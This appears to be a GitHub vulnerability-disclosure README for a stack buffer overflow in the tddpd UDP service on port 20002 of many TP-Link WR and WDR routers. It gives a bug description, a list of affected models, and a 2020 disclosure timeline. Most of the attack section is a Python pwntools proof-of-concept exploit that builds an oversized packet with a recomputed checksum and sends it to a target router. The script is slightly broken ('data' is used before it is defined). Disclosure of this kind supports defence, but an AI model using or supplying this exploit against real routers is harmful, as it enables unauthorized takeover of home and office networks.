

# TP-LINK-POC_2

TP-Link router have a stack overflow in tddpd server running via port 20002.

Any user can get remote code execution through LAN, this vulnerability currently affects the latest versions of WR、WDR series, which include WDR7400,WDR7500,WDR7660,WDR7800,WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N,WR842N,WR802N,WR710N,WR706N,WR702N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description 

This vulnerability happen when tddpd server receive data by usinng recvfrom `udp port 20002`.Then with a series data processing,it arrive `memcopy`,we can contorl `a1` and `v5`that It lead to a stack buffer overflow to execute arbitrary code.

**It's different from CVE-2020-28877**



## poc

Refer to this video: [poc_video](./poc.mkv)

**poc**

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
if len(sys.argv)<3:
    print "Usage exp.py <target ip> <local ip>"
    exit(-1)
def critical(msg):
    sys.stdout.write('[\x1B[31m*\x1b[0m] ')
    for i in msg:
        sys.stdout.write(i)
        sleep(0.05)
    sleep(1)
def log(msg):
    sys.stdout.write('[\x1B[32m*\x1b[0m] ')
    sys.stdout.write(msg)
#REMOTE_IP="192.168.1.1"
REMOTE_IP=sys.argv[1]
LOCAL_IP=sys.argv[2]
#LOCAL_IP="192.168.1.101"
REMOTE_PORT=20002
LOCAL_LISTEN_PORT=8080
context.log_level='error'
context.endian='big'
context.arch='mips'
data+='\x00\x00\x00\x01'*16
data+=p32(0xcafebabe)*0x10000 # it can lead to buffer flowover
len2=len(data)
len1=4+len2
hash=0x5a6b7c8d

payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(0x5a6b7c8d)
payload+= p16(1)+p16(len2)+data

kk=0
for i in range(len(payload)//4):
    kk=(kk+u32(payload[4*i:4*i+4]))%0x100000000
info("hash 0x%x"%kk)
payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(kk)
payload+= p16(1)+p16(len2)+data
p=remote(REMOTE_IP,REMOTE_PORT,typ='udp')
sleep(1)
for i in range(10):
    sys.stdout.write('.')
    sleep(1)
print ''
p.send(payload)

```

## Timeline

2020.10.24 show in GeekPwn

2020.12.01 report to CVE and TP-Link

2020.12.12 TP-Link reply and fix it
